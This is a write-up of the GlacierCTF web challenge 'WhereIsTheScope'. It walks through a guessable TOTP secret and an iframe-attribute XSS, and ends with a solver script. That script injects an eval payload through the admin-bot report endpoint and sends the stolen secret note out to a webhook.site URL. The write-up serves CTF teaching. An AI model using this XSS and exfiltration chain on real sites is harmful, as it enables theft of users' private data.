

# WhereIsTheScope [46 Solves]

## Description

> This year we are launching our new GlacierTV website allowing you to play any video from youtube. You can also take some notes while watching them and also restrict the access to those with a 2FA token. Hope you enjoy it.
>
> author: xsskevin
>
> <https://whereisthescope.web.glacierctf.com>
>
> Attachments: src.zip

<details><summary>Attachment file tree</summary>

```console
$ unzip -t src.zip
Archive:  src.zip
    testing: .babelrc                 OK
    testing: package.json             OK
    testing: patches/                 OK
    testing: patches/babel-generator+6.26.1.patch   OK
    testing: public/assets/css/       OK
    testing: public/assets/css/style.css   OK
    testing: public/index.html        OK
    testing: public/libs/             OK
    testing: public/libs/qrcode.min.js   OK
    testing: src/                     OK
    testing: src/client/              OK
    testing: src/client/index.js      OK
    testing: src/server/              OK
    testing: src/server/app.js        OK
No errors detected in compressed data of src.zip.
```

</details>

## Flag

gctf{b3_CaR3fUl_WiTh_JavAScR1pT_C0mP1L3rS_!!1}

## Solution

### Exploit Overview

```javascript
// src/server/app.js

// (snip)

app.use(session({
    secret: crypto.randomBytes(32).toString("base64"),
    cookie: {
        httpOnly: true
    }
}))

// (snip)

app.post("/setup_2fa", (req, res) => {
    const sessionId = req.session.id;
    if(Object.keys(totp_tokens).includes(sessionId)) return res.status(400).send("TOTP already registered for that session!")
    const totp = new otpauth.TOTP({
        issuer: "GlacierTV",
        label: "2FA",
        algorithm: "SHA3-384",
        digits: 9,
        period: 43,
        secret: getTOTPSecretToken()
    });
    totp_tokens[sessionId] = totp
    res.json({
        "totp": totp.toString()
    })
});

app.post("/secret_note", (req, res) => {
    const sessionId = req.session.id;
    const message = req.body.message;
    if(typeof message !== "string") return res.status(400).send("No message given");
    secret_notes[sessionId] = message;
    res.status(204).end();
});

app.get("/secret_note", (req, res) => {
    const sessionId = req.session.id;
    if(Object.keys(totp_tokens).includes(sessionId)) {
        const token = req.query.token;
        if(typeof token !== "string") return res.status(400).send("Missing TOTP token in search query.")
        const delta = totp_tokens[sessionId].validate({token, window: 1})
        if(delta === null) return res.status(400).send("Invalid TOTP token!") 
    }
    res.json({
        message: secret_notes[sessionId]
    })
});

// (snip)

const FLAG = process.env.FLAG || "gctf{dummy}";

app.post("/report", async (req, res) => {
    try {
        const path = req.body.path;
        if(typeof path !== "string") return res.status(400).send("No path provided");
        const uri = `http://localhost:8080/${path}`

        const browser = await puppeteer.launch({
            headless: "new",
            args: ["--no-sandbox", "--disable-dev-shm-usage", "--disable-setuid-sandbox"],
        });
        const context = await browser.createIncognitoBrowserContext();
        const page = await context.newPage();
        await page.goto('http://localhost:8080/');
        await page.waitForNavigation({
            waitUntil: 'networkidle0',
        });
        await page.evaluate(async message => {
            await fetch("/setup_2fa", {method: "POST"});
            await fetch("/secret_note", {
                method: "POST",
                body: JSON.stringify({message}),
                headers: {
                    "Content-Type": "application/json"
                }
            });
        }, FLAG)
        await page.goto(uri);
        await sleep(5000);
        await browser.close();
        res.status(200).send("Thank you for your report. We will check it soon")
    } catch(err) {
        console.log(err)
        res.status(400).send("Something went wrong! If you think this is an error on our site, contact an admin.")
    }
})

app.listen(8080);
```

`document.cookie` is not accessible because of `httpOnly: true`.
It's impossible to leak cookie.

The flag is sent to [POST] /secret_note endpoint by Puppeteer.
The message sent via [POST] /secret_note can be retrieved by sending a request to the [GET] /secret_note endpoint.
Also, the [GET] /secret_note is required a `token` query parameter.
Therefore, if it's possible to leak the token and control Puppeteer through XSS to send a request to the [GET] /secret_note endpoint, it seems possible to get the flag.

### Guessing and generating token

The Google Authenticator key URI (e.g. `otpauth://totp/GlacierTV:2FA?issuer=GlacierTV&secret=SLROQFNSJNZM3SG2KKZH6BRWXTZMLG7F5EZH2KLE2Y335WGL3USQ&algorithm=SHA3-384&digits=9&period=43`) can be obtained in the [POST] /setup_2fa endpoint.

```console
$ for i in $(seq 10); do curl -w '\n' -s -X POST https://whereisthescope.web.glacierctf.com/setup_2fa; sleep 5; done
{"totp":"otpauth://totp/GlacierTV:2FA?issuer=GlacierTV&secret=SLROQFNSJNZM3SG2KKZH6BRWXTZMLG7F5EZH2KLE2Y335WGL3USQ&algorithm=SHA3-384&digits=9&period=43"}
{"totp":"otpauth://totp/GlacierTV:2FA?issuer=GlacierTV&secret=SLROQFNSJNZM3SG2KKZH6BRWXTZMLG7F5EZH2KLE2Y335WGL3USQ&algorithm=SHA3-384&digits=9&period=43"}
{"totp":"otpauth://totp/GlacierTV:2FA?issuer=GlacierTV&secret=7MZQQWQRJUKTBJE5FY6QUPDETX2PAXORX5QBOJ5DWTRYCXZO6ONA&algorithm=SHA3-384&digits=9&period=43"}
{"totp":"otpauth://totp/GlacierTV:2FA?issuer=GlacierTV&secret=SLROQFNSJNZM3SG2KKZH6BRWXTZMLG7F5EZH2KLE2Y335WGL3USQ&algorithm=SHA3-384&digits=9&period=43"}
{"totp":"otpauth://totp/GlacierTV:2FA?issuer=GlacierTV&secret=7MZQQWQRJUKTBJE5FY6QUPDETX2PAXORX5QBOJ5DWTRYCXZO6ONA&algorithm=SHA3-384&digits=9&period=43"}
{"totp":"otpauth://totp/GlacierTV:2FA?issuer=GlacierTV&secret=7MZQQWQRJUKTBJE5FY6QUPDETX2PAXORX5QBOJ5DWTRYCXZO6ONA&algorithm=SHA3-384&digits=9&period=43"}
{"totp":"otpauth://totp/GlacierTV:2FA?issuer=GlacierTV&secret=7MZQQWQRJUKTBJE5FY6QUPDETX2PAXORX5QBOJ5DWTRYCXZO6ONA&algorithm=SHA3-384&digits=9&period=43"}
{"totp":"otpauth://totp/GlacierTV:2FA?issuer=GlacierTV&secret=SLROQFNSJNZM3SG2KKZH6BRWXTZMLG7F5EZH2KLE2Y335WGL3USQ&algorithm=SHA3-384&digits=9&period=43"}
{"totp":"otpauth://totp/GlacierTV:2FA?issuer=GlacierTV&secret=SLROQFNSJNZM3SG2KKZH6BRWXTZMLG7F5EZH2KLE2Y335WGL3USQ&algorithm=SHA3-384&digits=9&period=43"}
{"totp":"otpauth://totp/GlacierTV:2FA?issuer=GlacierTV&secret=SLROQFNSJNZM3SG2KKZH6BRWXTZMLG7F5EZH2KLE2Y335WGL3USQ&algorithm=SHA3-384&digits=9&period=43"}
```

Sending requests to the [POST] /setup_2fa API Endpoint several times, it was confirmed that the same secret is responsed in several time.
It seems that the secret is guessable, and token is also.

[otpauth](https://github.com/hectorm/otpauth)

> ```javascript
> // Generate a token (returns the current token as a string).
> let token = totp.generate();
>
> // Validate a token (returns the token delta or null if it is not found in the search window, in which case it should be considered invalid).
> let delta = totp.validate({ token, window: 1 });
> 
> // (snip)
> 
> // Convert from Google Authenticator key URI.
> totp = OTPAuth.URI.parse(uri);
> ```

Tested in nodejs Console:

```javascript
> const otpauth = require("otpauth")
undefined
> const uri = "otpauth://totp/GlacierTV:2FA?issuer=GlacierTV&secret=SLROQFNSJNZM3SG2KKZH6BRWXTZMLG7F5EZH2KLE2Y335WGL3USQ&algorithm=SHA3-384&digits=9&period=43";
undefined
> otpauth.URI.parse(uri);
TOTP {
  issuer: 'GlacierTV',
  label: '2FA',
  issuerInLabel: true,
  secret: Secret {
    buffer: ArrayBuffer {
      [Uint8Contents]: <92 e2 e8 15 b2 4b 72 cd c8 da 52 b2 7f 06 36 bc f2 c5 9b e5 e9 32 7d 29 64 d6 37 be d8 cb dd 25>,
      byteLength: 32
    }
  },
  algorithm: 'SHA3-384',
  digits: 9,
  period: 43
}
> otpauth.URI.parse(uri).generate();
'498426828'
```

By using this URL, the generate() method can be used to generate a token.

### XSS

```javascript
// src/client/index.js

// (snip)

function loadFromQuery() {
    const query = new URLSearchParams(window.location.search);
    const source = query.get("source") || "youtube";
    const uri = query.get("uri");
    document.getElementById("searchInput").value = uri || "https://www.youtube.com/embed/dQw4w9WgXcQ?&autoplay=1";
    if(!uri) return false;
    updateSource(uri, source);
    var ifconfig = {
        pathname: `<iframe frameborder="0" width=950 height=570 src="${parseURI(uri)}"></iframe>`
    }
    document.getElementById("viewer").srcdoc = ifconfig.pathname;
    return true;
}

function parseURI(uri) {
    const uriParts = new URL(uri);
    if(uriParts.origin === "https://www.youtube.com")
        return uri;
    // If user does not provide a youtube uri, we take the default one.
    return "https://www.youtube.com/embed/dQw4w9WgXcQ?&autoplay=1";
}

// (snip)
```

Due to `src="${parseURI(uri)}"` in the client code, a XSS vulnerability exists.

Successful XSS Payload:

```text
https://whereisthescope.web.glacierctf.com/?uri=https://www.youtube.com/%22%20onload=%22alert(1)
```



### Exploit

```javascript
// solver.js
const axios = require("axios");
const OTPAuth = require("otpauth");

(async () => {
  try {
    // get URI to generate token
    const response = await axios.post(
      "https://whereisthescope.web.glacierctf.com/setup_2fa"
    );
    const token = OTPAuth.URI.parse(response.data.totp).generate();
    // console.log(`token: ${token}`);

    const xss_payload = `fetch('/secret_note?token=${token}').then(resp => resp.text()).then(text => { new Image().src = "https://webhook.site/<yourwebhook>/?data=" + btoa(text); })`;

    const data = {
      path: `?uri=https://www.youtube.com/%22%20onload=%22eval(atob(%27${btoa(
        xss_payload
      )}%27))`,
    };
    // console.log(data);
    await axios.post("https://whereisthescope.web.glacierctf.com/report", data);
  } catch (error) {
    console.log(error);
  }
})();

```

Execute this solver.js and check webhook request, found <https://webhook.site/d4b16d75-3e17-4688-9337-2e09a2aa612e/?data=eyJtZXNzYWdlIjoiZ2N0ZntiM19DYVIzZlVsX1dpVGhfSmF2QVNjUjFwVF9DMG1QMUwzclNfISExfSJ9>.

Note: Occasionally, guessing the token may fail, and it could return `Invalid TOTP token!`.
In such cases, it may be necessary to execute solver.js several times.

```console
$ echo -n eyJtZXNzYWdlIjoiZ2N0ZntiM19DYVIzZlVsX1dpVGhfSmF2QVNjUjFwVF9DMG1QMUwzclNfISExfSJ9 | base64 -d
{"message":"gctf{b3_CaR3fUl_WiTh_JavAScR1pT_C0mP1L3rS_!!1}"} 
```
